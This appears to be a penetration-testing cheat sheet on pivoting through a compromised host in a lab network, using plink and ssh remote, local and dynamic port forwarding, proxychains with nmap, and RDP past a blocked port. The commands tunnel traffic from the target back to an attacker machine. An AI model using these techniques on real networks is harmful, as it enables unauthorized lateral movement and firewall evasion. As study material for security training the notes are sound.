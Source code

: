 
The Attacking Box (Kali Linux)   
IP: 192.168.1.16    

The pivot host (Windows XP) or linux     
User: lowuser   
FIRST IP: 192.168.1.30     
SECOND IP: 10.0.0.2    

Web server    
IP: 10.0.0.10     

# Port Forwarding
 
Plink.exe is Windows binary for ssh can be found at:   
`/usr/share/windows-resources/binaries/plink.exe`   

### Remote Forwarding

Goal: To get to server at 10.0.0.10

From Target   
`plink -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`   
`ssh -p 22  -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`

From Kali   
`curl 127.0.0.1:4444`

### Local Forwarding

Firewall rule blocking 3389

From Target   
`plink -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`   
`ssh -p 22 -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`

From Kali   
`rdesktop 192.168.1.30:3390`

Other Local Forwarding methods   

From Kali   
`ssh -f -N -L 3390:10.0.0.10:3389 lowuser@192.168.1.30`   
`rdesktop localhost:3390`


### Dynamic Forwarding

Firewall only allows inbound port 2222 and 80

From target    
`plink -P 22 -N -C -R 2222:127.0.0.1:22 root@192.168.1.16`    
`ssh -f -N -R 2222:127.0.0.1:22 root@192.168.1.16`

From Kali   
`ssh -f -N -D 127.0.0.1:8080 -p 2222 lowuser@127.0.0.1`

`vi /etc/proxychains.conf`   
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn <IP>`

Other Dynamic Forwarding   

From Kali   
`ssh -f -N -D 8080 lowuser@192.168.1.30`

### Other tools

HTTPTunnel   

stunnel 

socat

Reference:   
https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/   
https://technostuff.blogspot.com/2008/10/some-useful-socat-commands.html    

